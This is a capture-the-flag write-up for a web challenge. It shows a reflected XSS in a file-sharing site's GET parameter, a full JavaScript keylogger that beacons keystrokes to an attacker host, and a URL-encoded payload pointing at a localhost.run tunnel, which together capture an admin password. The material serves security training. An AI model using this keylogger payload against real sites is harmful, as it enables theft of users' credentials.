









# Web 400 - This is the linke you are looking for

## Challenge Text:

Rebel, we need your help.

Our reconnasiance team have discovered an Empire file sharing server that is exposed to the internet. I can't quite put my finger on it, but something is telling me that there is valuable information stored on the server...

Also, the Rebel Red Team has developed a phishing tool that garuntees a Storm Trooper will click on whatever is sent to them. It is here for you if you need it.

## Hints:

It seems that each time the trooper checks this site, he has to reauthenticate... is there something we can monitor to get us the info we need?

## How to Solve:

This challenge is a little bit of a different take on an XSS. 

You are given a target website where you know the administrator reqularly logs in, and you are given a "phishing" website that will emulate the victim clicking on a link. 

On the file sharing server, you can see there is a `GET` variable in the URL:



This is the variable that is vulnerable to XSS. We can test this by changing the value to `<script>alert(1)</script>`



Now that we have our attack vector, we need to craft a malicious url. We can do that on our phishing server. 



For this challenge, you need to write a javascript keylogger to capture the password when the admin enters it into the site. 

Here is an example one: 

```js
 var keys='';
document.onkeypress = function(e) {
  get = window.event?event:e;
  key = get.keyCode?get.keyCode:get.charCode;
  key = String.fromCharCode(key);
  keys+=key;
}
window.setInterval(function(){
  new Image().src = '<host_to_reachout_to>/keylogger.php?c='+keys;
  keys = '';
}, 1000);
```

Before we craft our payload URL, we first need a place for the keylogger to reach out to. There are many ways to do this, but for the sake of this solution we will look at localhost.run - [Link](http://localhost.run/)

With localhost.run we can open up a local port to the internet to catch incoming traffic. 



In this case, we are forwarding traffic that goes to `https://d24866bbe451f9.localhost.run` to port 8080 on our local machine. 

Next lets start a python web server in our tmp directory and run it on port 8080: 

*Note: create a new empty directory so that you are not exposing any files to the internet*



We can test this is working by going to `https://d24866bbe451f9.localhost.run` in a browser: 



Now that we have a place to catch the information from the keylogger, lets format that keylogger javascript in URL encoding: 

`%3Cscript%3Evar%20keys=%27%27;document.onkeypress%20=%20function(e)%20{%20%20get%20=%20window.event?event:e;%20%20key%20=%20get.keyCode?get.keyCode:get.charCode;%20%20key%20=%20String.fromCharCode(key);%20%20keys%2B=key;};window.setInterval(function(){%20%20new%20Image().src%20=%20%27https://d24866bbe451f9.localhost.run/keylogger.php?c=%27%2Bkeys;%20%20keys%20=%20%27%27;},%201000);%3C/script%3E`



We then catch the password that was entered in our python web server traffic: 



`Sup3rs3cr3tpassw0rd-silicon`

Enter that password into the file sharing server site: 

